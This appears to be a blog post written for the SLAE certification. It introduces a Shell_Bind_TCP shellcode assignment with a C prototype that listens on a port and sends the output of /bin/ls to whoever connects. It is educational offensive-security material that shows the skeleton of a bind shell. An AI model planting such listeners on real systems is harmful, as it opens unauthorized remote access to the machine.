 ```yaml
---
title: Shell Bind TCP
date: 2017-05-13 12:39:08
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[SLAE](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-916
-- -

### Assignment number one requirements are:

* create a **Shell_Bind_TCP** shellcode
* binds to a port
* executes shell on an incoming connection to the port (/bin/ls)
* port number should be configurable

### Background Information
A **Shell_Bind_TCP** shellcode spawns a shell when a connection is successfully established. The code when executed achieves its aim through the use of sockets. Sockets are the endpoints of a two way network communications link. These endpoints/applications are defined by an IP address and a port number. The two applications normally run on different computers, but sockets can also be used for interprocess communication on a single computer. The port number allows you to identify the service that you require and allows concurrent connections sharing the same address. It is useful to program the problem in C as you can get a precise understanding of what exactly the assembly code will have to contain. There are numerous examples of this program. [This post came in useful](http://www.thegeekstuff.com/2011/12/c-socket-programming/)

This C program helped me to visualise the requirements:

``` C
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void)
{
 //struct for socket info
 struct sockaddr_in srvFd;

 //set properties
 srvFd.sin_family = AF_INET;			//family for IP address
 srvFd.sin_port = htons(8888);			//port number (msb first)
 srvFd.sin_addr.s_addr = htonl(INADDR_ANY); 	//accepts connections to all the IPs of the machine

 //Sys Call - create socket descriptor
 int srvSoc = socket(AF_INET, SOCK_STREAM, 0);

 //Sys Call - assign address/port to socket
 bind(srvSoc, (struct sockaddr *) &srvFd, 16);

 //Sys Call - accept incoming conection - just let max number of connections = 1
 listen(srvSoc, 1);

 //Sys Call - allow incoming connection attempt on a socket
 int clientSoc = accept(srvSoc, NULL, NULL);

 //Sys Call - redirect stdout to the socket - when /bin/ls is executed output will use this socket instead of the standard file descriptors.
 dup2(clientSoc, 1);

 //Sys Call - execute /bin/ls, execvc("address of where /bin/ls", "address of array of arg strings")
 char *argv[] = {"/bin/ls",NULL};
 execve(argv[0], &argv[0], NULL);

 return 0;
}
```

